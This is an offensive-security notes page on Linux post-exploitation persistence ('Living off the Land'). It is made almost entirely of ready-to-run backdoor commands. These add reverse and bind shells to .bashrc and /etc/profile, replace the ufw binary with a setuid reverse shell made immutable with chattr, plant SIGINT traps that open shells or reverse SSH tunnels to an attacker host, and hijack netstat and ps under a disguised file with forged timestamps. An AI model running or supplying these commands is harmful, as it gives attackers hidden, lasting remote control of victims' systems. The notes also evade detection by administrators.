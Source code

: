 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# Living off the Land

## 01 - User Profile

Reverse Shell

```
$ echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" >> ~/.bashrc

$ echo "/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &" >> ~/.bashrc
```

Even when the user logs out the shell will still be running.

```
$ echo "nohup <commands> &" >> ~/.bashrc
```

Bind Shell

```
$ echo "nc -e /bin/bash -lnvp 8080 &" >> ~/.bashrc
```

## 02 - Global System Profile

Reverse Shell

```
$ sudo mv /usr/bin/ufw /tmp/ufw.bak

$ sudo echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" > /usr/bin/ufw

$ sudo echo "/usr/bin/ufw &" >> /etc/profile

$ sudo echo "/usr/bin/ufw &" >> /etc/skel/.profile

$ sudo chmod +sss /usr/bin/ufw

$ chattr +i /etc/skel/.profile /etc/profile /usr/bin/ufw
```

## 03 - Trap

### 3.1 - Implant

Setup a `trap` by backdooring when a user triggers the **SIGINT** (`Ctrl + C`) to terminate a program.

```
$ trap "/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &" SIGINT

$ trap "nohup /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &" SIGINT
```

### 3.2 - Reverse SSH Tunneling

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Linux/Remote Login/SSH/Manual/Living off the Land|section]] for more context.

```
$ trap "ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o \"UserKnownHostsFile=/dev/null StrictHostKeyChecking=no\" <username>@<attacker_IP>" SIGINT

$ trap "nohup ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o \"UserKnownHostsFile=/dev/null StrictHostKeyChecking=no\" <username>@<attacker_IP>" SIGINT
```

## 04 - Shell Functions

```
$ echo -e 'netstat(){ command netstat "$@"; /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &} ps(){ command ps "$@"; /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 & }' > /usr/bin/prng \ &&
echo ". prng #Initialize Pseudo Random Number Generator" >>/etc/bash.bashrc \ &&
touch -r /etc/ld.so.conf /usr/bin/prng /etc/bash.bashrc
```

---
## References

### Backlinks

- [[Linux Post Exploitation Persistence References]]

### Github

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)